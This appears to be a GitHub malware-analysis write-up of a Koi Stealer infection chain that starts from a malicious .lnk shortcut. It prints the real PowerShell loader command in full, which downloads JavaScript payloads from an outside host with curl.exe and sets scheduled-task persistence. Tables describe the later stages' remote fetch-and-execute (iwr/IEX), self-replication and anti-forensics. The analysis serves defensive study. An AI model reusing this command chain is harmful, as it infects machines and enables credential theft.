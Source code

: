 
When executed, the .lnk file launches PowerShell with the following constructed command:

```
powershell.exe -comma $iasmaenembxa11k = 'w'+'sc'+'ript C:\ProgramData\' + ('tzldirf5ddw1aq.js 8t9fognkq'); 
& ('curl.exe') -s -L -o tzldirf5ddw1aq.js 'https://conleyuniversity.us/wp-content/uploads/2016/04/unalphabetedbQFK.php'; 
& ('curl.exe') -sL -o fci6u30bkw0w 'https://conleyuniversity.us/wp-content/uploads/2016/04/excommengeoB.php'; 
Move-Item fci6u30bkw0w 8t9fognkq.js; 
. ('schtasks') ('/create') /f /sc minute /mo 1 /tr $iasmaenembxa11k /tn 8t9fognkq;
```

Function

curl.exe ... unalphabetedbQFK.php - 	Downloads obfuscated JS file → tzldirf5ddw1aq.js

curl.exe ... excommengeoB.php	- Downloads another JS payload → saved temporarily

Move-Item	 - Renames second JS file to 8t9fognkq.js

schtasks	 - Sets up persistence to run both JS files every minute using wscript

The .lnk file (chase_28_06_25.lnk) initiates the attack by running a hidden PowerShell command that downloads and executes an obfuscated JavaScript file. This script downloads further JS files—one sets up persistence via a scheduled task, while another fetches and runs the final payload (Koi Stealer). The overall chain starts with the .lnk, which triggers JS loaders, sets persistence, and delivers the stealer.

## tzldirf5ddw1aq.js File

<img width="1367" height="312" alt="image" src="https://github.com/user-attachments/assets/30bc9c57-d84f-4325-8669-289b1d4b8afd" />

| Action                      | Description                                                                                     |
| --------------------------- | ----------------------------------------------------------------------------------------------- |
| **ActiveX Object Creation** | Instantiates `WScript.Shell` for running system-level commands.                                 |
| **Deletes Scheduled Task**  | Uses PowerShell to forcibly delete a scheduled task with the name passed as the first argument. |
| **Re-Executes Payload**     | Immediately runs the corresponding `.js` file from `%ProgramData%` to persist execution.        |
| **Silent Execution**        | Runs in background with no visible window (`Run(..., 0)`).                                      |


Task Cleanup	- Removes traces of old scheduled task (schtasks /delete).
Re-Persistence	- Re-invokes JavaScript payload from %ProgramData%.
Anti-Forensics	 - Reduces static indicators of compromise (IOCs).

## 8t9fognkq.js

<img width="1893" height="645" alt="image" src="https://github.com/user-attachments/assets/8fec3213-f4d2-4a10-9841-f41ad7c72739" />

| Action                           | Description                                                                                               |
| -------------------------------- | --------------------------------------------------------------------------------------------------------- |
| **ActiveX Abuse**             | Uses `WScript.Shell` and `Scripting.FileSystemObject` for system interaction.                             |
| **Self-Replication**          | Copies itself to `%ProgramData%` as `r<MACHINEGUID>r.js` to evade detection and ensure persistence.       |
| **Processor-Aware PS**        | Detects CPU bitness to use correct PowerShell executable (SysWOW64/System32).                             |
| **Downloads Payloads**        | If temp file doesn’t exist, runs PowerShell to **download and execute** two scripts: abstractingN1.php,unlivablenessLpW4.ps1                    |
| **Obfuscated C2 Call**       | PowerShell uses `iwr` (Invoke-WebRequest) and `IEX` (Invoke-Expression) to fetch & run remote content.    |
| **Environmental Fingerprint** | Uses `MachineGuid` as an identifier – possibly for unique victim tracking on the C2 side.                 |
